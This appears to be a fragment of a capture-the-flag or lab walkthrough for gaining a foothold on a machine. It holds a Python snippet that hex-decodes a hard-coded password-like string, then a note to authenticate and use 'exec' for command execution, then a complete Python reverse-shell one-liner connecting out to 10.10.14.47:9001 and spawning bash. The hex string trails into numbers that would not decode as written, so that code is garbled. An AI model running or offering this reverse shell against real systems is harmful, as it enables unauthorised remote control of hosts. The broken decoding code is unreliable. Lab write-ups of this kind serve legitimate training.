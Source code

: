 ~~~
import binascii
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 135'
s=binascii.unhexlify(s.replace(' ',''))
print(s)
~~~
![](antique-foothold-script.png)

authenticate and use:
~~~
exec
~~~
for command execution
reverse shell:
~~~
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.47",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~
